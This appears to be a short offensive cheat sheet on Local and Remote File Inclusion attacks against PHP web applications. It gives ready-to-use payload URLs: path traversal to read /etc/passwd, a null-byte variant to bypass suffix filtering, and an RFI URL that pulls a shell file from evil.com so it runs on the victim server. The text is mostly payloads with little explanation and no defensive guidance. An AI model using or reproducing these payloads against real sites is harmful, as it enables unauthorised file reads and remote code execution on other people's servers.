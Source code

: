 # Local File Inclusions

### Simple LFI
```html
http://<victim-site>/index.php?location=../../../etc/passwd
```

### If the LFI vuln sanitizes for .pdf or put that to the end.
The `%00` is the null character that terminates the string
```html
http://<victim-site>/index.php?location=../../../etc/passwd%00
```

# Remote File Inclusions
Remote File Inclusions (RFI) works int he same way as LFI; the only difference is that the file to be included is pulled remotely

Our aim, in this case, is not just to read, but to include out own code in the execution. An exploitable URL would like this:
```html
http://<victim-site>/vuln.php?page=http://evil.com/shell.txt
```